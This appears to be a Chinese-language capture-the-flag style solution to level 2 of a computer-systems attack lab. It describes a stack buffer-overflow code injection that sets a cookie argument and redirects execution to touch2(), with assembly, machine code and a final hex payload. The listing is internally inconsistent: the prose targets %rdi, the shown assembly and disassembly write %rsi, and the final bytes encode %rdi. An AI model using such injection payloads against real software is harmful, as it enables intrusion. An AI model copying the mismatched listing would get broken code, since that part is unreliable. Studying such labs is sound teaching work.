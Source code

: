 ### 思路

- **level2简要说明**
```cpp
较level1多了个要求，即返回到touch2()，并且以cookie为参数传递，
也就是需要我们自己注入代码了.
```

- **解题过程**
```cpp
注入方法：先用GDB调试找到进入getbuf，确定分配内存给字符串后的栈顶，
在此处注入可执行的代码(在第一遍getbuf时认为是读入了字符串)，然后返
回到getbuf初始时的栈顶位置，及将字符串加载到缓冲区后再一次进入缓冲区
的栈顶，但这一次字符串被当成了可执行代码，这样就实现了代码注入.
```

我们注入的代码要实现以下功能：
1，修改%rdi，即返回到touch2时的参数为cookie值
2，成功返回到touch2
得到以下代码

```py
movq    $0x59b997fa,%rsi
pushq   $0x4017ec
ret     # ret指令等价于pop %rip
```

反汇编后得到机器码

```py
0000000000000000 <.text>:
   0:	48 c7 c6 fa 97 b9 59 	mov    $0x59b997fa,%rsi
   7:	68 ec 17 40 00       	push   $0x4017ec
   c:	c3                   	ret    
```

- **最终答案**
  
```txt
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```